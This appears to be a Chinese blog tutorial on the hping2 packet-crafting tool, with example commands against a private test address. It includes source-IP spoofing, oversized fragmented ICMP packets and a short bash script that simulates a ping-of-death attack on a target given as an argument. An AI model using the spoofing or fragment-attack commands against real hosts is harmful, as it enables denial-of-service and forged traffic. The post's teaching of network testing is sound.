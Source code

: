```yaml
---
layout: single
author_profile: true
comments: true
title: 数据包构造工具Hping2实战
category: cybersecurity
tags: [DDoS, Linux]
---
```


# hping简介
[hping](http://www.hping.org/) is a command-line oriented TCP/IP packet assembler/analyzer.   

用途有下：

- Firewall testing
- Advanced port scanning
- Network testing, using different protocols, TOS, fragmentation
- Manual path MTU discovery
- Advanced traceroute, under all the supported protocols
- Remote OS fingerprinting
- Remote uptime guessing
- TCP/IP stacks auditing
- hping can also be useful to students that are learning TCP/IP.

# hping实战

在ubuntu中编译的hping2-rc3版本  

hping -h打印出的第一行就指出了目的主机参数的位置

	hping host [options]

### 向10.10.10.10发送数据包

	hping 10.10.10.10

如果没有指定任何参数，它会向10.10.10.10的0号端口以每秒1个包的速率一直运行  

### 向10.10.10.10发送10个包

	hping 10.10.10.10 -c 10

执行的功能是从本地一个随机端口向10.10.10.10的0端口发送了10个tcp数据包。 
-c选项指出发送包的数量，等同于--count  

### 每秒向10.10.10.10发送10个包，总共发送50个

	hping 10.10.10.10 -i u100000 -c 50
	
-i 选项用于指定发包的时间间隔，单位是微秒，以u开头，1s=1000ms=1000000us  

### 用源IP 10.10.10.111向10.10.10.10以100packet/s的速率发送udp包

	hping 10.10.10.10 -i u10000 -2 -a 10.10.10.111

-2 选项是用来发送udp数据包，等同于--udp  
-a 选项是用来伪造源IP地址  	

### 从<10.10.10.111, 1234>向<10.10.10.10, 5678>发送tcp数据包

	hping 10.10.10.10 -a 10.10.10.111 -s 1234 -p 5678

-s 选项是用来指定源端口，等同于--baseport  
-p 选项是用来指定目的端口，等同于--destport  

### 发送一个大于65535字节的分片icmp包

	hping 10.10.10.10 -1 -g 65420 -d 1200 -c 1

-g 选项指定分片偏移，等同于--fragoff

### 模拟ping of death

pingofdeath.sh脚本
{% highlight bash %}
#!/bin/bash
#dst=10.10.10.10
dst=$1
id=186
#14B ethernet header + 20B ip header + 8B icmp header
dsize=1450
let icmpsize=$dsize+8
hping $dst -1 -x -d $dsize -N $id -c 1

for i in $(seq 50)
do
	let offset=$i*$icmpsize
	hping $dst -1 -x -d $dsize -g $offset -N $id -c 1
done
{% endhighlight %}

-N 选项指定IP报头的标识符，等同于--id	
-d 选项指定数据包的大小，等同于--data  
-x 选项说明该IP包后面还分片，相当于IP报头的M标识位，等同于--morefrag   

